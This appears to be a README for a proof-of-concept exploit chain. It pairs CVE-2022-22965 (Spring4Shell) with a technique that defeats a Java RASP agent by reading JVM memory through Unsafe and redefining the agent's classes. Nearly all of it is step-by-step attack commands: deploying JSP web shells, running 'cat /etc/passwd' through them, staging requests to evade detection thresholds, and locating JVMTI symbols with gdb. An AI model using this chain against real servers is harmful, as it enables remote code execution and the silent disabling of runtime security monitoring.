 This is a PoC where we abuse memory access through unsafe to bypass RASP. The idea is to read the base address of the libjvm and then either read also the symbol or predefine it for a known 
global variable and navigate the memory space until we reach the InstrumentationImpl object representing the agent itself and redefine classes and thus bypass RASP.

We do it step by step to avoid being detected (it looks like when the request parameter exceeds a certain treshold, we get blocked by the agent I was playing the bypass against):
1. mvn clean package
2. cd ..
3. docker build . -t  cve-2022-22965-bypass-with-instrumentation -f bypass-using-instrumentation/Dockerfile
4. docker run -p 8080:8080 -p 8000:8000 cve-2022-22965-bypass-with-instrumentation
5. curl http://localhost:8080/exploit/greeting
6. python3 -m pip install -r requirements.txt 
7. Finally deploy your exploit that should have been blocked normally:
   `   python3 exploit-instrumentation-bypass.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="exploit" and trigger curl "http://localhost:8080/exploit.jsp?cmd=cat%20/etc/passwd".
   `
![blocked.png](blocked.png)
8. Now deploy jvm base address backdoor: 
`   python3 exploit-instrumentation-bypass.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="readBaseAddress", now you can get the base address using curl "http://localhost:8080/readBaseAddress.jsp" -> baseAddress`
![base.png](base.png)
9. Next deploy Redefine_Transformer_Manager jsp that will trigger redefining the transformerManager bytecode:
`    python3 exploit-instrumentation-bypass.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="redefineTransformer", you should the base address provided using the first step and issue  curl "http://localhost:8080/redefineTransformer.jsp?cmd={baseAddress e.g 139963791860840}” 
`
![redefineTransformerManager.png](redefineTransformerManager.png)
10. Ok now deploy RedefineProcessBuilder using 
`  python3 exploit-instrumentation-bypass.py --url="http://localhost:8080/exploit/greeting" --dir="webapps/ROOT" --file="redefineProcessBuilder" and trigger the redefinition: curl "http://localhost:8080/redefineProcessBuilder.jsp?cmd={baseAddress}”
`
11. Rerun and Enjoy the bypass:
    `curl "http://localhost:8080/exploit.jsp?cmd=cat%20/etc/passwd" `
You would need to update the base address of JvmtiEnvBase::_head_environment, first ssh in the container, find / -name libjvm.so 2>/dev/null, and finally gdb /usr/local/openjdk-11/lib/server/libjvm.so + info variables and then you have it
`0x0000000000f59750  JvmtiEnvBase::_head_environment`
